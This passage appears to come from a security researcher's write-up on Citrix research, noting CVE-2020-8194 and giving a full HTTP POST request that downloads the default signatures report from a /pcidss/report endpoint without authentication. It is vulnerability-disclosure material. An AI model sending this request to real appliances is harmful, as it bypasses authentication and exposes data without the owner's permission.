 I really didn't spend to much time on this one, but Citrix deemed it interesting enough to assign it a CVE: **CVE-2020-8194**.

### Get all default signatures
Not an interesting finding at all, but the report controller allows you to download a report without authenticating by using the following HTTP request:

```http
POST /pcidss/report?type=all_signatures&sid=254&username=nsroot&profile_name=default&set=0&sig_name=_default_signature_&sig_start_no=1 HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/pcidss/launch_report?type=main
Content-Type: application/xml
Content-Length: 0
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![](/assets/img/citrix-research/default_signature.png)
